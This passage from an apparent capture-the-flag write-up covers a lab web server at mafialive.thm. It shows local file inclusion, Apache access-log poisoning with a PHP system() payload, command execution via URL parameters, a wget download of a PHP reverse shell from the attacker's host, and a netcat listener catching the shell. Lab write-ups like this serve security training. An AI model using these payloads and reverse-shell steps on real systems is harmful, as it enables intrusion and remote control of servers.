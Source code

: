
Scrolling to the bottom of this log file, I see all of my requests through the LFI vulnerable.


`http://mafialive.thm/test.php?view=/var/www/html/development_testing/mrrobot.php?%3C?php%20system($_GET[%27c%27]);%20?%3E`

Refreshing access.log, I see my php code is now in the log file

![php](/assets/archangel/php.png)

I can now test command execution

`view-source:http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&c=whoami`


![www](/assets/archangel/www.png)


Since I can execute commands, I can upload files. Using a [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) I can upload this file and then navigate to it. I setup up a python HTTP Server on my local machine then use wget to upload the file


`view-source:http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&c=wget 10.2.8.75/php-reverse-shell.php`


It was uploaded correctly, now I need to see where it is exactly. Running a pwd command, I see it is under the home folder of `mafialive.thm`


`view-source:http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&c=pwd`

![pwd](/assets/archangel/pwd.png)


With the file now uploaded, I can set up a netcat listener and navigate to `http://mafialive.thm/php-reverse-shell.php` to gain a reverse shell

```
root@kali:~/ctfs/thm/archangle# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.2.8.75] from (UNKNOWN) [10.10.166.10] 40070
Linux ubuntu 4.15.0-123-generic #126-Ubuntu SMP Wed Oct 21 09:40:11 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 01:39:08 up 27 min,  0 users,  load average: 0.00, 0.00, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```
